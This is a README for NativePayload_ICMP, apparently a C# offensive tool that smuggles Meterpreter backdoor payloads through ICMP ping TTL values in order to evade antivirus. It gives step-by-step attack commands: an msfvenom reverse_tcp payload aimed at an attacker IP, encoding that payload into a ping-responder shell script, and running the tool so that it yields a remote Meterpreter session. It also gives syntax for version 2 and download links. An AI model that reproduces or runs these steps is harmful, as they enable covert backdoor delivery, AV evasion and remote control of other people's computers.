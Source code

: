 # NativePayload_ICMP v1.0
C# code Published by Damon Mohammadbagher

Article step by step : https://www.peerlyst.com/posts/transfer-download-payload-by-icmpv4-traffic-via-ttl-damon-mohammadbagher


NativePayload_ICMP : transfer Backdoor Payloads by ICMPv4 Traffic and bypassing Anti-Viruses

Tested : Win7 SP1 and Win 2008 R2

step by step:

example step1 msfvenom --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 -f c > payload.txt

note: copy your msfvenom output payloads to 'Payload string' like 'fc4883e4f0e8cc00000415141505265'

example step2 c:\\> NativePayload_ICMP.exe null "Payload string" > script.sh

example step2 c:\\> NativePayload_ICMP.exe null fc4883e4f0e8cc00000415141505265 > script.sh

example step3 c:\\> NativePayload_ICMP.exe ipaddress (sending ICMPv4 traffic to this ipaddress by ping)

example step3 c:\\> NativePayload_ICMP.exe 192.168.1.50 

example step4 linux side ./script.sh  (run this script in PING Responder linux system).

note: after chmod also adding #!/bin/bash to script.sh file , you can run this script in PING Responder system.

note: you should run this script in your linux after step3 for Response to PING traffic from backdoor system

note: Backdoor system is win with NativePayload_ICMP.exe and ipaddress for example: 192.168.1.120

note: PING Responder system is linux with ./script.sh and ipaddress for example : 192.168.1.50

note: PING Responder system is also Meterpreter Listener by ipaddress : 192.168.1.50

<summary>

in this case after 1020 ping request and response you have Meterpreter Session by ICMPv4

Dumping Payloads by TTL from PING Response...

Meterpreter Payload is 510 bytes

510 * 2 = 1020

 0 ... 1019 = 1020 Request
 
</summary>

# NativePayload_ICMP v2.0

"NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 Released for Ebook. (May 2018 , bug fixed).

    NativePayload_ICMP.exe v2.0 syntax: 
    NativePayload_ICMP.exe help

    NativePayload_ICMP.sh v1.0 syntax: 
    step0 Client-Side with ipv4 w.x.y.z , syntax :./NativePayload_ICMP.sh shtext "your text or string"
    step1 Server-Side with ipv4 w1.x1.y1.z1 syntax :./NativePayload_ICMP.sh listen "w.x.y.z"
    Note: in step1 you should use Client-side system w.x.y.z IPv4Address
    help syntax : ./NativePayload_ICMP.sh help

Download  "NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 here : https://github.com/DamonMohammadbagher/NativePayload_ICMP/tree/master/EBOOK



<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_ICMP"/></a></p>
